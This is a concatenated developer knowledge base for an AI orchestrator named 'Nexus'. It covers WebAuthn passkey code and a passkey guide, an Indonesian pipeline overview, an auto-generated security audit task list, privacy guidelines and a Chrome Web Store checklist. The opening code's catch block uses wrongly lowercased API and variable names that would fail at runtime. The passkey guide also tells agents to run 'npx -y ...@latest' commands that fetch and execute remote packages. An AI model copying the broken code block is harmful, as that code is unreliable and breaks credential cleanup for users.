    } else if (err.name === "NotAllowedError") {
      console.log("User cancelled the passkey dialog.");
    } else if (err.name === "AbortError") {
      console.log("The creation operation has been aborted.");
    }
    return; // Safe API exit, do not signal unknown for standard WebAuthn cancels
  }

  // Server Verification phase (Segregated Try/Catch)
  let encodedResponse = credential.toJSON();
  try {
    const response = await registerVerifyFetch(encodedResponse);
    if (!response.ok) {
      // Server verification failed to verify/authenticate the credential (orphaned)
      await PublicKeyCredential.signalUnknownCredential({
        rpId, // RP ID must match the one defined on the server
        credentialId: encodedResponse.id, // Base64URL-encoded credential ID
      });
    }
  } catch (serverErr) {
    console.error("Server verification network failure:", serverErr);
    await publickeycredential.signalunknowncredential({
      rpId, // RP ID must match the one defined on the server
      credentialid: encodedresponse.id, // base64url-encoded credential id
    });
  }
}
```

## Fallback Strategies

### Signal API Synchronization Fallback

Web authentication signal methods has limited availability.
Supported by: Chrome 132 (Jan 2025), Edge 132 (Jan 2025), and Safari 26 (Sep 2025).
Unsupported in: Firefox.

The WebAuthn Signal API (`webauthn-signals`) is a progressive optimization used to keep password managers in sync with the server credential state.

- **Fallback Experience**: If `PublicKeyCredential.signalUnknownCredential` is unsupported by the browser, the call MUST be bypassed safely via feature detection gating (`if (PublicKeyCredential.signalUnknownCredential)`), and the server-side verification simply logs the failure without triggering manager updates.

### Easy JSON Serialization Fallback

Baseline status for the api.PublicKeyCredential.parseCreationOptionsFromJSON_static capability: Newly available. It's been Baseline since 2025-03-31.
Supported by: Chrome 129 (Sep 2024), Edge 129 (Sep 2024), Firefox 119 (Oct 2023), and Safari 18.4 (Mar 2025).

Always install 'webauthn-polyfills' and import it in the context.
Consider as long as  `PublicKeyCredential` is supported, `PublicKeyCredential.parseCreationOptionsFromJSON` and `PublicKeyCredential.prototype.toJSON` are also supported. 

```js 
import 'webauthn-polyfills';
``` 


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, tdd, api]

### 📘 KNOWLEDGE: NEXUS_PASSKEYS.MD

# Passkeys Orientation Guide
> **VERSION**: v1 | **Last Updated**: 26/05/2026


This guide provides high-density, action-oriented orientation for implementing secure, framework-agnostic passkey authentication and credential management in modern web applications.

## 1. Core Prerequisites for Passkeys

Passkeys rely on the Web Authentication API (WebAuthn), which imposes strict cross-cutting security constraints that must be satisfied before any implementation attempt:
*   **Secure Contexts**: WebAuthn methods (`navigator.credentials.create` and `navigator.credentials.get`) are strictly gated behind Secure Contexts. Applications MUST run on `https://` in production, or `http://localhost` for local development.
*   **Relying Party (RP) ID**: Every credential is tied to an RP ID (essentially the domain name of the application). The RP ID passed in the server-side options MUST match or be a valid suffix of the current origin's domain name (e.g., `example.com` is valid for `login.example.com`). Mismatches result in `SecurityError` exceptions on the client side.

## 2. The AAGUID UX Caveat

The Authenticator Attestation Globally Unique Identifier (AAGUID) is a 128-bit identifier returned in the registration attestation data that represents the model/provider of the authenticator (e.g., Google Password Manager, iCloud Keychain, 1Password).
*   **UX Hinting Only**: Relying Parties MUST use the AAGUID exclusively for UX hints (such as rendering the passkey provider name and icon in a management list to help the user).
*   **No Security Dependencies**: applications MUST NOT use AAGUID for cryptographic security or access decisions. Platform passkeys do not currently provide cryptographic attestation for their AAGUIDs, meaning it can be altered or simulated by user agents.

## 3. Decoupled Library Recommendations

For backend FIDO2/WebAuthn options generation and signature verification, developers MUST rely on vetted open source libraries per language instead of hand-rolling cryptography:
*   **JavaScript/TypeScript**: SimpleWebAuthn (github.com/MasterKale/SimpleWebAuthn)
*   **Python**: py_webauthn (github.com/duo-labs/py_webauthn)
*   **Java**: Java WebAuthn Server (github.com/Yubico/java-webauthn-server), WebAuthn4J (github.com/webauthn4j/webauthn4j)
*   **.NET**: .NET library for FIDO2 (github.com/abergs/fido2-net-lib)
*   **Go**: WebAuthn Go Library (github.com/go-webauthn/webauthn)
*   **Ruby**: WebAuthn Ruby (github.com/cedarcode/webauthn-ruby)
*   **PHP**: WebAuthn Framework (github.com/web-auth/webauthn-framework)

## 4. Use Case Reference Matrix

Identify the matching use case below and retrieve its full implementation guide. Every use case has critical APIs (`PublicKeyCredential.parseCreationOptionsFromJSON`, `parseRequestOptionsFromJSON`, `signalAllAcceptedCredentials`, `signalCurrentUserDetails`, `signalUnknownCredential`, conditional mediation, AAGUID handling, etc.) that are documented only in the per-use-case guide. Do NOT skip this retrieval step, and do NOT substitute third-party library wrappers (such as SimpleWebAuthn's `startAuthentication`/`startRegistration`) on the client — call the native WebAuthn browser APIs directly. Library recommendations in Section 3 apply to the **server-side** (backend FIDO2 verification) only.

Specific passkey and WebAuthn implementation details are mapped to the following guides:
*   **Passkey Registration**: `passkey-registration` (via `npx -y modern-web-guidance@latest retrieve "passkey-registration"`) — Offering new passkey registration and promotions.
*   **Passkey Conditional Create**: `passkey-conditional-create` (via `npx -y modern-web-guidance@latest retrieve "passkey-conditional-create"`) — Silently registering passkeys immediately after successful password login.
*   **Passkey Authentication**: `passkey-authentication` (via `npx -y modern-web-guidance@latest retrieve "passkey-authentication"`) — Discoverable-autofill and button sign-ins.
*   **Passkey Management**: `passkey-management` (via `npx -y modern-web-guidance@latest retrieve "passkey-management"`) — Syncing lists, renames, and deletions with password managers.
*   **Passkey Reauthentication**: `passkey-reauthentication` (via `npx -y modern-web-guidance@latest retrieve "passkey-reauthentication"`) — Re-verifying returning signed-in users for sensitive steps.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, api]

### 📘 KNOWLEDGE: NEXUS_PIPELINE_VISUAL.MD

# 📊 Visualisasi Pipeline NEXUS AI
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Dokumen ini berisi representasi visual dan penjelasan mendalam mengenai alur kerja **Nexus Engine** dalam mengelola kolaborasi Human-AI.

---

## 🗺️ Diagram Alur Pipeline


---

## 📝 Penjelasan Detail Tiap Fase

### 🛠️ Phase 0: Inisialisasi (`INIT`)
*   **Aksi**: Sistem memetakan folder proyek, mendeteksi keberadaan folder `nexus/`, dan menyiapkan lingkungan eksekusi.
*   **Intel**: Memeriksa `package.json` untuk memastikan seluruh dependensi engine tersedia.

### 🔍 Phase 1: Audit (Scanning & Intelligence)
*   **Tujuan**: Mengidentifikasi celah keamanan, bug, atau potensi optimasi.
*   **Mode Kerja**:
    *   **Learning**: Memberikan edukasi kepada developer melalui laporan spesialis (Cyber, UX, SEO).
    *   **Efficient**: Fokus pada resolusi cepat dengan laporan tunggal dari PM.
*   **Guardrails**: Engine dilarang memindai file sensitif tanpa persetujuan eksplisit dari User.

### 📅 Phase 2: Planning (Strategi & Kontrak)
*   **Tujuan**: Menyusun *Implementation Plan* sebagai kontrak kerja AI.
*   **Logika**: Mengubah setiap temuan audit menjadi tugas (tasks) yang terukur.
*   **Output**: File `.md` di folder `documentation/planning/` yang harus ditinjau manusia.

### 🚀 Phase 3: Execution (Pengerjaan)
*   **Tujuan**: AI melakukan modifikasi kode atau pembuatan fitur.
*   **Aturan**: AI hanya diperbolehkan menjalankan perintah yang sesuai dengan *Implementation Plan* yang telah disetujui.

### 🔍 Phase 4: Verification (Quality Control)
*   **Tujuan**: Validasi hasil kerja.
*   **Mekanisme**: Membandingkan status proyek terbaru dengan target yang ditetapkan di Phase 1 & 2.
*   **Zero Flaws**: Jika ditemukan ketidaksesuaian, sistem akan memaksa siklus kembali ke Phase 1.

### 📝 Phase 5: Finalization & Records
*   **Tujuan**: Pencatatan sejarah dan pembaruan pengetahuan.
*   **Output**: 
    *   `memory/short_term/`: Log lengkap setiap siklus.
    *   `memory/long_term/`: Ringkasan pelajaran teknis untuk referensi di masa depan (The HUB).
    *   **🧠 Universal Nexus Collision Logic (Opsi A maupun Opsi B)**:
        *   Logika ini adalah standar baku yang diterapkan di seluruh pipeline **HUB (Knowledge)** dan **SKILL**.
        *   **Kondisi**: Terjadi saat ada kemiripan antara "A" (yang sudah ada) dan "B" (yang baru masuk/direfactor), baik itu berupa teori di HUB maupun instruksi teknis di SKILL.
        *   **Implementasi di HUB & SKILL**:
          Opsi A: { Standard_Pattern_A } 
          Opsi B: { Alternative_Pattern_B }
          (Opsi Tak Terbatas untuk variasi solusi)
        *   **Alur Refactoring Universal**:
            1.  **HUB Refactor**: Menggabungkan variasi dokumentasi fitur di folder `memory/long_term/`.
            2.  **SKILL Refactor**: Jika di folder `skill/` ditemukan teknik koding baru yang mirip dengan yang lama, keduanya disimpan sebagai **Pilihan Opsi (A/B/dst)** sebagai pilihan strategi bagi agen.
        *   **Tujuan**: Menjamin bahwa sistem tidak hanya memiliki satu cara kerja, melainkan sebuah **"Decision Tree"** dengan opsi tak terbatas yang kaya bagi AI untuk memilih solusi paling optimal (Context-Aware).

### 🌾 Phase 6: Harvesting (Cross-Project Knowledge)
*   **Tujuan**: Sinkronisasi pengetahuan lintas proyek.
*   **Aksi**: Mengumpulkan dokumentasi "Emas" dari proyek lain ke dalam `golden/` hub pusat.

---
*Dokumen ini merupakan bagian dari standar operasional Human-AI Nexus.*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security]

### 📘 KNOWLEDGE: NEXUS_PLAN_PLAN-1779702319557.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026


# 🛠 Implementation Plan: PLAN-1779702319557
**Ref Audit**: [AUDIT-1779702317598](../audit/audit_SUMMARY_AUDIT-1779702317598.md)
**Status**: Ready for Execution

---

## 📋 Task List & Learning Insights

### [ ] Task 1: SECURITY: .env detected (Auto-fix enabled)
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 2: CRITICAL: [cyber-security] .env file detected in project root.
- **🧐 Why?**: File .env berisi kredensial sensitif seperti API keys dan password database. Membiarkannya di root tanpa proteksi berisiko kebocoran data jika tersinkronisasi ke repository publik.
- **💡 Action**: Tambahkan .env ke dalam file .gitignore dan gunakan environment variables di tingkat server.


### [ ] Task 3: WARNING: [database-architect] Hardcoded database connection string detected.
- **🧐 Why?**: Menyimpan kredensial database langsung di dalam kode adalah celah keamanan besar. Jika kode ini diakses pihak luar, mereka bisa mengontrol database Anda.
- **💡 Action**: Pindahkan string koneksi ke file .env dan gunakan process.env untuk memanggilnya.


### [ ] Task 4: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 5: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 6: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 7: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 8: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 9: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 10: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 11: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 12: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 13: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 14: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 15: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 16: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 17: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 18: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 19: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 20: INFO: [documentation-architect] File has over 50 lines but no detected documentation/docstrings.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 21: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 22: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 23: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 24: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 25: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 26: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 27: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 28: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 29: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 30: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 31: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 32: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 33: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 34: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 35: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 36: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


### [ ] Task 37: INFO: [vcs-architect] Potential junk or temporary file detected.
- **🧐 Why?**: File sampah atau temporary (seperti .log atau .DS_Store) mengotori repository dan bisa menyebabkan masalah performa pada Git.
- **💡 Action**: Hapus file ini atau tambahkan polanya ke dalam .gitignore agar tidak terlacak oleh Version Control.


---
*Generated by Nexus Orchestrator*
        

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security]

### 📘 KNOWLEDGE: NEXUS_PRIVACY.MD

# Web Privacy Guidelines for Developers
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Web application developers must treat privacy as a foundational architectural requirement, not just a legal compliance checkbox. As the web ecosystem shifts away from passive tracking toward explicit, user-consented interactions, building privacy-preserving applications is critical for user trust and security.

This document provides high-level principles and detailed, actionable guidelines with code examples for web developers.

## High-Level Overview

These core themes should guide your approach to privacy in web development:

1.  **Automation Asymmetry & Privacy Labor**: Do not offload the burden of protecting privacy to the user (privacy labor). Avoid overwhelming users with complex consent dialogs (automation asymmetry). Users have limited time and attention; offloading privacy choices to them is often ineffective and causes fatigue. Systems should be privacy-protective by default.
2.  **Data Minimization**: "If you don't have the data, you can't lose it." Collect only the bare minimum required for the immediate task. Reducing data storage reduces the risk of breach and builds user trust.
3.  **Purpose Limitation**: Data collected for one purpose must not be used for another without fresh consent. Repurposing data without explicit agreement violates the trust relationship with the user.
4.  **Transparency by Default**: Be honest and clear about why data is collected, where it goes, and how long it is kept. Transparency builds trust and can be a unique selling point for your application.
5.  **Trustworthy Agency**: Treat your application as an agent acting in the user's best interest. This means protecting them from intrusive behaviors, unnecessary data exposure, and acting as a loyal fiduciary to the user rather than serving third-party interests.

## Detailed Guidelines

### 1. Data Minimization and Purpose Limitation

Reducing the amount of data collected and strictly limiting its use is the most effective way to protect user privacy.

#### DOs:
*   **DO** collect data at the lowest granularity necessary. If you only need to know if a user is in a certain age bracket (e.g., 18-34), ask for the bracket, not the exact date of birth.
*   **DO** provide guest checkout options for e-commerce to avoid forced account creation, which reduces data collection and cart abandonment.
*   **DO** delete data as soon as the purpose for its collection has been fulfilled.
*   **DO** use techniques like "fuzzing" or adding noise to data (Differential Privacy) when gathering aggregate statistics.

#### DON'Ts:
*   **DON'T** collect data speculatively "just in case" it might be useful in the future.
*   **DON'T** reuse data collected for one purpose (e.g., security verification) for another (e.g., marketing) without explicit user consent.

#### Code Examples:

**Fuzzing Data Collection (HTML/JS)**
Instead of asking for exact age:
```html
<label for="age-bracket">Age Bracket:</label>
<select id="age-bracket" name="age-bracket">
  <option value="18-34">18-34</option>
  <option value="35-49">35-49</option>
  <option value="50+">50+</option>
</select>
```

### 2. Transparency and Trust

Build trust by being open about your data practices and providing easy ways for users to control their data.

#### DOs:
*   **DO** provide inline explanations for why data is requested. Place the explanation directly next to the input field.
*   **DO** provide a clear reason and context *before* requesting powerful browser permissions (e.g., camera, location).
*   **DO** consider using the **Page Embedded Permission Control (PEPC)** `<permission>` element, if supported, to make permission requests declarative, user-initiated, and act as data mediators.
*   **DO** use the `Clear-Site-Data` header when a user logs out to ensure no lingering data remains in the browser.
*   **DO** make it as easy to opt-out or delete an account as it was to sign up.

#### DON'Ts:
*   **DON'T** bury data collection explanations in long, complex privacy policies.
*   **DON'T** use deceptive patterns (dark patterns) to trick users into giving consent.

#### Code Examples:

**Inline Transparency (HTML)**
```html
<div>
  <label for="phone">Phone Number (Optional)</label>
  <input id="phone" type="tel" name="phone">
  <a href="#phone-help">Why do we ask for this?</a>
  <aside id="phone-help">
    We only use your phone number to send two-factor authentication codes for account security.
  </aside>
</div>
```

**Clear-Site-Data on Logout (HTTP Response)**
```http
HTTP/1.1 200 OK
Clear-Site-Data: "*"
```
*Note: If clearing the cache, avoid sending this on the main navigation page to prevent blocking UI rendering on slow devices; trigger it via a subresource.*

**Page Embedded Permission Control (HTML)**
```html
<!-- Declarative permission element with fallback -->
<permission type="geolocation" onpromptdismiss="updateMap()">
  <!-- Fallback for unsupported browsers -->
  <button onclick="navigator.geolocation.getCurrentPosition(updateMap)">
    Use my location
  </button>
</permission>
```

### 3. Security and Data Handling for Privacy
 
Privacy relies on a foundation of secure coding. Vulnerabilities in the application or insecure storage directly lead to privacy violations.
 
#### DOs:
*   **DO** scrub Personally Identifiable Information (PII) from application logs. Use automated masking for emails, tokens, and IDs.
*   **DO** use `HttpOnly` flags for cookies storing session identifiers to prevent other scripts from accessing them.
*   **DO** implement rate limiting on sensitive endpoints (e.g., user search or profile views) to prevent bulk data scraping.
*   **DO** use **CHIPS (Cookies Having Independent Partitioned State)** by appending the `Partitioned` attribute for 1:1 embeds that do not share state across top-level sites.
 
#### DON'Ts:
*   **DON'T** store sensitive tokens or PII in `localStorage`, as it is accessible by any embedded script.
*   **DON'T** rely on unpartitioned `SameSite=None` cookies.
 
#### Code Examples:
 
**Secure Session Cookie (HTTP)**
```http
Set-Cookie: session_id=xyz123; Secure; HttpOnly; SameSite=Lax
```

**CHIPS Cookie (HTTP)**
```http
Set-Cookie: theme_pref=dark; SameSite=None; Secure; Path=/; Partitioned; HttpOnly
```

### 4. Third-Party Audits and Mitigations

Third-party scripts and resources are a common source of privacy leaks. You are responsible for the third parties you bring into your application.

#### DOs:
*   **DO** conduct regular technical audits of network requests using DevTools or HAR files to identify what data third parties are collecting.
*   **DO** use the **Façade Pattern** for heavy embeds (like YouTube or TikTok). Display a static thumbnail and load the interactive iframe only after the user clicks.
*   **DO** use privacy-preserving options for embeds when available (e.g., `youtube-nocookie.com`).
*   **DO** replace heavy social sharing SDKs with simple, static HTML links that do not track users.
*   **DO** use the **Federated Credential Management API (FedCM)** to mediate "Sign-In" flows natively, preventing IdP tracking of Relying Parties prior to user consent.

#### DON'Ts:
*   **DON'T** assume a third party is privacy-safe just because it is popular.
*   **DON'T** load third-party scripts on pages where sensitive data (like checkout or health info) is handled unless strictly necessary.

#### Code Examples:

**Privacy-Preserving Social Sharing (HTML)**
```html
<!-- No JS SDK required -->
<a href="https://x.com/intent/tweet?text=Check%20this%20out&url=https%3A%2F%2Fexample.com" 
   rel="noopener" target="_blank">
   Share on X
</a>
```

**Video Façade Pattern (HTML/JS)**
```html
<div id="video-container" data-video-id="abc123">
  
</div>

<script>
document.getElementById('play-btn').addEventListener('click', function() {
  const container = document.getElementById('video-container');
  const videoId = container.dataset.videoId;
  container.innerHTML = `<iframe src="https://www.youtube-nocookie.com/embed/${videoId}?autoplay=1" allowfullscreen></iframe>`;
});
</script>
```

**FedCM Sign-In (JavaScript)**
```javascript
try {
  const credential = await navigator.credentials.get({
    identity: {
      providers: [{
        configURL: "https://idp.example/fedcm.json",
        clientId: "rp-client-id-123",
        nonce: "a_secure_random_nonce_value"
      }]
    }
  });
  authenticateWithBackend(credential.token);
} catch (error) {
  // Handle FedCM login failure
}
```

### 5. Privacy-Preserving Headers

Use standard HTTP headers to instruct the browser to enforce privacy boundaries.

#### DOs:
*   **DO** use `Permissions-Policy` to disable powerful features (like camera, microphone, geolocation) by default, enabling them only where required.
*   **DO** set a strict `Referrer-Policy` to prevent leaking sensitive URL parameters to third parties.

#### Code Examples:

**Strict Referrer Policy (HTTP)**
```http
Referrer-Policy: strict-origin-when-cross-origin
```

**Defensive Permissions Policy (HTTP)**
Disables powerful features for all origins by default.
```http
Permissions-Policy: geolocation=(), camera=(), microphone=(), accelerometer=()
```

### 6. Fingerprinting and User-Agent Reduction

Avoid techniques that attempt to uniquely identify users covertly based on their device configuration. Fingerprinting takes away user control because it relies on unchanging characteristics and happens invisibly, preventing users from opting out or clearing their identifier.

#### DOs:
*   **DO** use **Feature Detection** instead of User-Agent sniffing to determine if a browser supports a capability.
*   **DO** use **User-Agent Client Hints** (UA-CH) if supported by the browser, when specific device targeting is required.

#### DON'Ts:
*   **DON'T** use canvas rendering, font lists, or audio/video device enumerations to build a device fingerprint.
*   **DON'T** rely on the full granularity of the traditional `navigator.userAgent` string.

#### Code Examples:

**Feature Detection (JavaScript)**
```javascript
// GOOD: Check if the API exists
if ('IntersectionObserver' in window) {
  const observer = new IntersectionObserver(...);
} else {
  // Fallback
}

// BAD: Sniffing UA
// if (navigator.userAgent.includes("Chrome/100")) ...
```

**User-Agent Client Hints (JavaScript)**
```javascript
if (navigator.userAgentData) {
  navigator.userAgentData.getHighEntropyValues(["platformVersion", "architecture"])
    .then(ua => {
      console.log(ua.platformVersion);
    });
}
```

### 7. Data Rights and User Control

Empower users to exercise their rights over their personal data.

#### DOs:
*   **DO** provide clear mechanisms for users to **access** all data you have collected about them.
*   **DO** implement automated or easy manual flows for **data deletion** (erasure).
*   **DO** allow users to correct inaccurate information associated with their identity.

#### DON'Ts:
*   **DON'T** make the deletion process difficult or require users to contact support if sign-up was automated.
*   **DON'T** retaliate against users who exercise their data rights by denying access to non-dependent services.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, api]

### 📘 KNOWLEDGE: NEXUS_REVIEW-CHECKLIST.MD

# Pre-Publish Review Checklist
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Run through this checklist before every submission to the Chrome Web Store. Each item
corresponds to a common rejection reason or publishing failure.

## Manifest & Package

- [ ] **manifest_version is 3** — Manifest V2 is no longer accepted for new submissions.
- [ ] **Version bumped** — CWS rejects uploads with a version ≤ the currently published
      version. Use semver: bump patch for fixes, minor for features, major for breaking
      changes.
- [ ] **Name matches CHROMEWEBSTORE.md** — The `name` field in manifest.json must exactly
      match what you put in the store listing.
- [ ] **Description in manifest ≤ 132 chars** — This is the short description shown in
      chrome://extensions. It should match or be close to your CWS short description.
- [ ] **No unnecessary files in ZIP** — Exclude: `.git/`, `node_modules/`, `.env`,
      `*.map`, test files, build configs, `CHROMEWEBSTORE.md` itself, `README.md`,
      `.DS_Store`, `thumbs.db`. Use a build script or `.cws-ignore`-style exclusion.
- [ ] **ZIP under 2GB** — Maximum package size. Most extensions should be under 10MB.
- [ ] **No absolute file paths** — All paths in manifest.json must be relative.

## Permissions

- [ ] **Minimum permissions** — Only request what you need. `<all_urls>` is a red flag.
      Use specific host_permissions like `*://*.example.com/*` when possible.
- [ ] **Every permission justified** — Check the Permissions Justification section in
      CHROMEWEBSTORE.md. The CWS dashboard has a field for each permission — you'll need
      to fill these in during submission.
- [ ] **activeTab preferred over tabs + <all_urls>** — If you only need access to the
      current tab when the user clicks your icon, `activeTab` is the right permission.
- [ ] **No unused permissions** — If you removed a feature that used a permission, remove
      the permission from manifest.json too. Leftover permissions cause rejection.
- [ ] **host_permissions justified** — Explain which features need access to which domains
      and why.

## Store Listing Content

- [ ] **Detailed description is specific** — Describes exactly what the extension does.
      No vague marketing language. The review team reads this.
- [ ] **Single purpose is narrow** — One sentence that clearly states the primary function.
      "Manages bookmarks into categorized folders" not "Productivity enhancement tool."
- [ ] **No misleading claims** — Don't claim features you don't have. Don't exaggerate
      performance claims.
- [ ] **No keyword stuffing** — Don't repeat keywords unnaturally in the description.
- [ ] **No trademark violations** — Don't use other companies' names, logos, or trademarks
      in your extension name, description, or screenshots unless you have authorization.
- [ ] **Contact email is valid** — The email shown on the listing must be monitored. Google
      sends important notifications (takedowns, policy changes) to this address.

## Graphics

- [ ] **Store icon**: 128×128 PNG, no transparency issues, readable at small sizes.
- [ ] **At least 1 screenshot**: 1280×800 or 640×400 pixels. Shows the extension in action.
- [ ] **Screenshots are current** — Match the current version of the extension UI. Outdated
      screenshots can trigger rejection.
- [ ] **No misleading screenshots** — Screenshots must accurately represent the extension.
